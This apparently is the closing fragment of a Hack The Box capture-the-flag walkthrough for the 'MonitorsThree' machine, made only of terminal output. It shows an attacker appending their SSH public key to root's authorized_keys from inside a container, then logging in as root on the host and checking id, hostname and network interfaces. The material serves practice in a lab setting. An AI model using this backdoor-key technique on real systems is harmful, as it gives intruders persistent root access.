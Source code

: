 ```
root@c6f014fbbd51:/source/root/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJzn4l5QYIguSnuwt4IKIgfBRQXjnwfD/zv4KONzBA2+ kali@kali" >> authorized_keys
```

```
┌──(kali㉿kali)-[~/hackthebox/monitoredthree]
└─$ ssh root@monitorsthree.htb -i root.key 
Last login: Tue Aug 20 15:21:21 2024
root@monitorsthree:~# id
uid=0(root) gid=0(root) groups=0(root)
root@monitorsthree:~# hostname
monitorsthree
root@monitorsthree:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:fa:48 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.30/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
3: br-c7b83e1b07b0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:89:82:a0:07 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-c7b83e1b07b0
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:19:68:ae:06 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: vethdc071d7@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-c7b83e1b07b0 state UP group default 
    link/ether 12:f6:2a:53:03:e4 brd ff:ff:ff:ff:ff:ff link-netnsid 0
root@monitorsthree:~# 
```